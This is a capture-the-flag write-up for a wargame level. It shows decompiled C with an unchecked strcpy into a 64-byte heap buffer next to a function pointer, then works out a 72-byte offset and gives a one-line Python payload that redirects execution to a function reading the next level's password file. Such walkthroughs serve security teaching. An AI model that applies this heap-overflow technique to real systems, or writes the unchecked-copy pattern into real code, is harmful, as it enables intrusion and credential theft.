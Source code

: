 Here is the decompiled code :

```c
void n(void)

{
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  puts("Nope");
  return;
}

void main(undefined4 param_1,int param_2)

{
  char *__dest;
  undefined4 *puVar1;

  __dest = (char *)malloc(0x40);
  puVar1 = (undefined4 *)malloc(4);
  *puVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (*(code *)*puVar1)();
  return;
}
```

We see in our main that m() function is called, and that we have another function called n(). We have a malloc of size 0x40 (64bytes in decimal). We can try a heap buffer overflow.

The address of n() is 0x08048454

Let's use https://wiremask.eu/tools/buffer-overflow-pattern-generator/ to find the offset in order to exploit the overflow.

The offset is 72.

So if we put the address of n() at the offset of the buffer, we will land in the n() function and it will print the token.

`./level6 $(python -c 'print("A"*72 + "\x54\x84\x04\x08")')`

